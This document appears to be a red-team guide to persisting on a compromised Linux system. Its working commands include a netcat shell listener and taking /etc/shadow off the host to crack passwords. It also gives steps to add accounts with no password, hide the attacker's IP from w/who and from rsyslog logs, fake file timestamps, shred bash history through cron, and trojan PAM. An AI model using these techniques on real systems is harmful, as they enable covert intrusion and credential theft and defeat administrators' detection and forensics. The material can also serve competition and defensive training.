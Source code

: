 # Linux Persistence

This document will show various ways to persist on a Linux system.

## General Tips for Linux Persistence

This blurb taken from James Golovich at Cyberforce 2019, with additional contribution by Dan Fedele

**As a non-privileged user**

*  Create ssh keys (ssh-keygen). If a password is changed or the account locked you can usually still login via ssh with a key.  Generate one key and use it everywhere so you don't have to juggle keys around and remember which goes where.
*  Install scripts in cron or at
*  Setup shell listener (rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 127.0.0.1 1234 > /tmp/f)

**As root**

* Exfiltrate /etc/shadow file to crack newly changed passwords
* Add a new account (useradd or directly in /etc/passwd, /etc/shadow)
* Modify /etc/passwd and remove the 'x' from the password field (2nd field), this sets the account to no password and is often overlooked because everyone assumes the password is always in the shadow file
* Install and startup nfs-server.  Export filesystems to world
* Export filesystems via samba
* Copy a real shell to /usr/sbin/nologin, /sbin/nologin, or /bin/false to allow special accounts to login  (this is already done on Centos + Ubuntu)
* Hide the low-hanging fruit commands that some less-experienced admins would use to determine presence:
  * `echo 'alias w="w | grep -v <your ip here>" >> /etc/bash.bashrc && alias who="who | grep -v <your ip here>" >> /etc/bash.bashrc'`
* Remove your IP from logs like SSH auth logs and other similar things.
  * Add the line `:msg,contains, "<your ip here>" ~` to /etc/rsyslog.conf before any other rules get added, then restart rsyslog. Replace with your IP obviously.
  * TODO: Add similar lines for syslog-ng and logstash

## Hide your tracks, think like an admin

Put your sysadmin hat on and think about what you would do if you have reason to believe that you are logging into a compromised server. What actions would you take (aside from pulling the plug for forensic analysis)?

Aside from seeing if someone were on your box *right now,* they would probably poke around and look for recent changes. One such check:

`find / -mtime -7`

Which will look for files modified within the past 7 days. You can fudge the numbers of files you create or modify with the "touch" command:

```bash
$ HIDDEN_TS=$(stat -c '%y' /etc/rc.local)
$ touch -d "$HIDDEN_TS" /path/to/modified/file
```

## Hide your tracks, wipe the history

Most shells will leave a history file behind. When it comes to bash, there are a few things you can do.

**Before the Attack**
* Prevent your history file from being written with: `export HISTSIZE=0`
  * Note that this will disable a history completely, meaning you can't use the up arrow to recall your last command.

**After the Attack**
* You can clear the current history with: `history -w`
* You can nuke all of your user's history with: `cat /dev/null > ~.bash_history && history -c && exit`
* Nuke your user's history from orbit: `shred ~/.bash_history`

You can set this to work automatically too:

1. Create a new crontab entry with: `crontab -e`
1. Add: `1 * * * * shred ~/.bash_history && cat /dev/null > .bash_history`

## Trojan the Pam Stack

When all else fails, trojan the pam stack. Really difficult to discover if done properly! 

https://github.com/AgroDan/trojan_pam

